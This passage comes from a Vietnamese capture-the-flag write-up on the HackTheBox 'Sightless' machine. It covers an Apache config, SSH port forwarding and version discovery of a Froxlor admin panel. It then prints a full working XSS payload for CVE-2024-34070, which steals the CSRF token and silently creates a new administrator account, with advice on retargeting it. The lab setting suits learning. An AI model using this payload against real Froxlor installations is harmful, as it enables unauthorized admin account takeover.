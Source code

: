 ```
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html/froxlor
	ServerName admin.sightless.htb
	ServerAlias admin.sightless.htb
	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
Tôi dùng `ssh -L 8081:localhost:8080 michael@10.10.11.32` để trỏ port 8080 trên ssh ra máy thật của tôi là 8081, sau đó truy cập vào `127.0.0.1:8081`

<img width="1871" height="958" alt="image" src="https://github.com/user-attachments/assets/f484638b-18a2-4690-aec1-6193a671cb05" />

Bằng wordlist xịn của tôi thì tôi scan được `vendor/composer/installed.json` và biết được nó đang chạy ở phiên bản 2.1.2 

<img width="1090" height="763" alt="image" src="https://github.com/user-attachments/assets/9f372a41-b41e-42bd-b745-ae04e53fd822" />

Tôi search google thì tìm được [CVE-2024-34070](https://github.com/froxlor/Froxlor/security/advisories/GHSA-x525-54hf-xr53) liên quan đến xss ở bên admin, khi admin ấn vào thì tạo và thêm user mới vào:

```
admin{{$emit.constructor`function+b(){var+metaTag%3ddocument.querySelector('meta[name%3d"csrf-token"]')%3bvar+csrfToken%3dmetaTag.getAttribute('content')%3bvar+xhr%3dnew+XMLHttpRequest()%3bvar+url%3d"https%3a//demo.froxlor.org/admin_admins.php"%3bvar+params%3d"new_loginname%3dabcd%26admin_password%3dAbcd%40%401234%26admin_password_suggestion%3dmgphdKecOu%26def_language%3den%26api_allowed%3d0%26api_allowed%3d1%26name%3dAbcd%26email%3dyldrmtest%40gmail.com%26custom_notes%3d%26custom_notes_show%3d0%26ipaddress%3d-1%26change_serversettings%3d0%26change_serversettings%3d1%26customers%3d0%26customers_ul%3d1%26customers_see_all%3d0%26customers_see_all%3d1%26domains%3d0%26domains_ul%3d1%26caneditphpsettings%3d0%26caneditphpsettings%3d1%26diskspace%3d0%26diskspace_ul%3d1%26traffic%3d0%26traffic_ul%3d1%26subdomains%3d0%26subdomains_ul%3d1%26emails%3d0%26emails_ul%3d1%26email_accounts%3d0%26email_accounts_ul%3d1%26email_forwarders%3d0%26email_forwarders_ul%3d1%26ftps%3d0%26ftps_ul%3d1%26mysqls%3d0%26mysqls_ul%3d1%26csrf_token%3d"%2bcsrfToken%2b"%26page%3dadmins%26action%3dadd%26send%3dsend"%3bxhr.open("POST",url,true)%3bxhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")%3balert("Your+Froxlor+Application+has+been+completely+Hacked")%3bxhr.send(params)}%3ba%3db()`()}}
```
Xóa phần `https://demo.froxlor.org` đi và có thể thay bằng `http://admin.sightless.htb:8080` nhưng cũng có thể để trống
